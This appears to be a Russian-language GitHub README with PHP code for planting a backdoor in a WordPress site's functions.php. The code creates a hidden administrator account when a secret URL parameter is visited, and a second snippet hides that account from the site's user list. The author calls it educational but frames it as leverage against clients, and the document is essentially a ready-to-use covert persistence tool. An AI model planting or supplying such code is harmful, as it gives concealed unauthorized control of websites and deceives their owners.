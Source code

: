 # Back Door In Wordpress

Данный материал выкладывается в образовательных целях!
Бывают разные ситуации в жизни, бывают разные заказчики. 
Иногда нужно себя обезопасить от кидалова. 
Да может быть 100 честных причин и столько же нечестных для использования backdoor-а в WordPress.

## Установка ⚙️

1. Измените functions.php сайта вставив/добавив следуйщий код:

```php
add_action( 'wp_head', 'my_backdoor' );

function my_backdoor()
{
    if (md5($_GET['backdoor']) == '34d1f91fb2e514b8576fab1a75a89a6b') {
        require('wp-includes/registration.php');
        if (!username_exists('<LOGIN>')) {
         $user_id = wp_create_user('<LOGIN>', '<PASSWORD>');
         $user = new WP_User($user_id);
         $user->set_role('administrator');
        }
    }
}
```
2. Замените <LOGIN> и <PASSWORD> на свой логин и пароль.

> С помощью этого кода мы создаём на сайте нового пользователя *LOGIN* с паролем *PASSWORD* и правами администратора.

> Для активации кода перейдите по ссылке: http://<ВАШСАЙТ>/?backdoor=go

####  Для того, чтобы скрыть нашего нового пользователя из списка пользователей, добавьте в functions.php следующий код:

```php
/**
 * @param $user_search
 */
function w45345p_hide_specific_user($user_search)
{
    global $wpdb;
    $user_search->query_where = str_replace(
        'WHERE 1=1',
        "WHERE 1=1 AND {$wpdb->users}.user_login != '<LOGIN>'",
        $user_search->query_where);
}

add_action('pre_user_query','w45345p_hide_specific_user');
```

После этого можно заходить на сайт с правами администратора.
